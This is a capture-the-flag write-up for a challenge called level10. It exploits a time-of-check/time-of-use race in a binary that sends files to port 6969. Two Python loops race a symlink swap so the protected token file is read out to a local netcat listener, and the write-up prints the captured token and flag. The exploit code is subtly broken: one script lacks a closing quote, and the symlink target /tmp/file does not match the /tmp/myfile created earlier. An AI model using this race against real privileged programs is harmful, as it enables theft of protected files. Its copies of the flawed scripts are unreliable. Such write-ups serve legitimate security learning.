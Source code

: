 # level10

We're presented with an executable `level10` and a `token` file. The token can't be read.

We run the executable and it prints a usage message :

```
./level10 file host
        sends file to host if you have access to it
```

We create a file `/tmp/myfile` and try to run `./level10 /tmp/myfile 127.0.0.1`, to send our file to ourselves.

We get the following error message :

```
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
```

The executable seems to send our file's content to the port `6969`.

We set up a `netcat` to listen to any incoming connections and catch the data.

In a new terminal, we run :

```
nc -lk localhost 6969
```

Now, running `./level10 /tmp/myfile 127.0.0.1` yields us the contents of `/tmp/myfile`. We can leave this running and start working on the exploit.

## The exploit

Further examination of the executable with `ltrace` reveals essential information : it starts by checking if the user (us) has rights over the file to open and *then* opens it.

This can be exploited by a **TOCTOU** attack (for Time Of Check, Time Of Use) ; the idea is to get clearance for the file access, and then change it to something we want the access to before it's opened.

We can "change" the file by using a **symbolic link** (`/tmp/link`) that will alternate pointing to our `/tmp/myfile` and to the `./token`.

To this end, we write two simple Python scripts. One to continuously run the executable :

```
import os

while True:
    os.system('./level10 /tmp/link 127.0.0.1)
```

And one to change what `/tmp/link` points to :

```
import os

while True:
    os.system('ln -sf /tmp/file /tmp/link')
    os.system('ln -sf /home/user/level10/token /tmp/link')
```

We're ready to exploit the executable. With `nc -lk localhost 6969` still running in our first terminal, we run each script in a second and third.

## The flag

Within milliseconds, `nc` displays what we want - the contents of `./token` :

```
woupa2yuojeeaaed06riuj63c
```

We use as password for `su flag10` and run `getflag` to get :

```
feulo4b72j7edeahuete3no7c
```